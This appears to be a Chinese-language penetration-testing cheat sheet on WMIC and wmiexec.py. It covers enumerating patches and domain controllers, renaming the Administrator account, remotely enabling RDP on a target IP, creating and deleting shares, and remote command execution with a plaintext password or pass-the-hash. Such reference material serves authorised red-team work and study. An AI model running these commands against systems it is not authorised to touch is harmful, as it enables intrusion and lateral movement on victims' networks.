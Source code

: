 用户账户管理
```
wmic useraccount
wmic useraccount list brief

wmic useraccount where "name='%UserName%'" call rename newUserName
// 更改当前用户名
wmic useraccount where "name='Administrator'" call Rename admin
// 更改指定用户名
```

获取补丁信息
```
wmic qfe list brief
wmic qfe get Caption,Description,HotFixID,IntsalledOn
```

查看域控制器
```
wmic ntdomain list brief
```

查看安装的软件信息
```
wmic product get name,version
```

远程桌面连接
使用WMIC命令开启远程计算机的远程桌面连接：
```
wmic /node:192.168.52.138 /USER:administrator PATH win32_terminalservicesetting WHERE (__Class!="") CALL SetAllowTSConnections 1
// wmic /node:"[full machine name]" /USER:"[domain]\[username]" PATH win32_terminalservicesetting WHERE (__Class!="") CALL SetAllowTSConnections 1
```

共享管理
```
wmic share list brief
wmic share get name,path,status

wmic share call create "","test","3","TestShareName","","c:\whoami",0
(可使用 WMIC SHARE CALL Create /? 查看create后的参数类型)
// 建立共享

wmic share where "name='C$'" call delete
wmic share where "path='c:\test'" delete
// 删除共享
```

### wmiexec
要执行命令并回显请使用wmiexec.py，⽤445端口传回显：
```
python wmiexec.py administrator:Liu78963@192.168.183.130
// python wmiexec.py 用户名:密码@目标IP
```
指定-hashes选项的话，则可进行哈希传递。
